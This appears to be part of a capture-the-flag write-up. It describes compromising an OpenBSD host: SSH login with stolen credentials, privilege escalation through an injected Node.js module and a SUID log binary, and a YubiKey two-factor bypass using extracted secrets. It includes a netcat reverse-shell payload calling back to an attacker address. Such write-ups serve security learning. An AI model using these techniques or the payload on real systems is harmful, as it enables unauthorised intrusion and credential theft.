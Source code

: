 ### 8. **SSH Login as David**
   - **Technique**: Credential-based SSH authentication
   - **Description**: Used the stolen password to log into SSH as `david@[TARGET-IP]`, switching to a `sh` shell for familiarity (as OpenBSD uses `csh` by default).
   - **Purpose**: Gained initial shell access as the `david` user.

### 9. **Privilege Escalation via Node.js Module Injection**
   - **Technique**: Node.js module path manipulation
   - **Description**:
     - Identified the `david` user as part of the `sysadmins` group and found a writable directory (`/opt/sysadmin`) containing `statbot.js`.
     - Noticed `statbot.js` loads the `ws` (WebSocket) module but lacks a local `node_modules` directory.
     - Exploited Node.js module resolution by creating `/opt/sysadmin/node_modules/ws/index.js` with a reverse shell payload (`require('child_process').execSync('nc [ATTACKER-IP] 9001 -e /bin/sh')`).
     - Waited for `statbot.js` (executed periodically) to load the malicious module, resulting in a reverse shell as the `john` user (part of `sysadmins` and `staff` groups).
   - **Purpose**: Escalated privileges to the `john` user via a malicious Node.js module.

### 10. **Privilege Escalation via SUID Binary**
   - **Technique**: SUID binary exploitation
   - **Description**:
     - Identified a setuid binary (`/usr/local/bin/log`) owned by the `staff` group, executable by the `john` user.
     - Analyzed the binary using Ghidra and Cutter, discovering it uses the `unveil` syscall to restrict file access to `/var`.
     - Found that `/var/backups` contains SSH key backups (e.g., `root.ssh_id_rsa`) due to OpenBSD's backup system replacing slashes with underscores.
     - Used the `log` binary to read `/var/backups/root.ssh_id_rsa.current`, extracting the root SSH private key.
   - **Purpose**: Obtained the root SSH private key for further authentication.

### 11. **YubiKey Authentication Bypass**
   - **Technique**: YubiKey secret extraction and simulation
   - **Description**:
     - Attempted SSH login as `root@[TARGET-IP]` with the stolen private key, but it required YubiKey authentication (`publickey,password` in `/etc/ssh/sshd_config`).
     - Used the `log` binary to extract YubiKey secrets (`/var/db/yubikey/root.uid`, `root.key`, `root.ctr`).
     - Configured a YubiKey simulator (`yubico-c` or `ubsim`) with the extracted secrets, incrementing the counter (`root.ctr` + 1) to generate a valid one-time password.
     - Successfully logged into SSH as `root` using the private key and generated YubiKey password.
   - **Purpose**: Achieved root access by bypassing two-factor authentication.

---

## Summary of Techniques
- **Reconnaissance**: Nmap, Gobuster, manual web enumeration.
- **Web Exploitation**: SQL injection (WebSocket), XSS (reflected and persistent), CORS bypass, DNS rebinding.
- **Credential Harvesting**: Extracted admin credentials via SQL injection and private message interception.
- **Privilege Escalation**: Node.js module injection, SUID binary exploitation.
- **Authentication Bypass**: YubiKey secret extraction and simulation.
